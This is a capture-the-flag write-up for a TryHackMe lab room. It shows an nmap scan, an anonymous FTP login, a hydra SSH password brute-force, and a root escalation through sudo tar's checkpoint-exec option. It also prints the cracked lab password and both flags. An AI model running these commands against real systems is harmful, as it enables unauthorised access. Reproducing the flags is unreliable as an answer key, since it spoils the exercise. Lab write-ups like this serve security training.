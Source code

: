 ###### You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
Room: https://tryhackme.com/room/cowboyhacker
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xx
```
PORT      STATE  SERVICE         REASON         VERSION
20/tcp    closed ftp-data        reset ttl 63
21/tcp    open   ftp             syn-ack ttl 63 vsftpd 3.0.3
22/tcp    open   ssh             syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http            syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```
The website running on port 80 seems like a dead end.  

Anonymously login into FTP. 
* locks.txt seems to be a list of passwords.
* task.txt gives us a username, lin.

Let's try and combine these informations and bruteforce the SSH.  
**sudo** hydra -l lin -P locks.txt xx.xx.xx.xx ssh  

```
[22][ssh] host: 10.10.67.57   login: lin   password: RedDr4gonSynd1cat3
```

**First flag, content of user.txt** **[1]**  
> THM{CR1M3_SyNd1C4T3}

Checkin the **sudo -l** command, we see that we can run **tar** as root.   
**sudo tar** -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh ([GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo))

```
# whoami
root
```

**Second flag, content of /root/root.txt** **[2]**  
> THM{80UN7Y_h4cK3r}


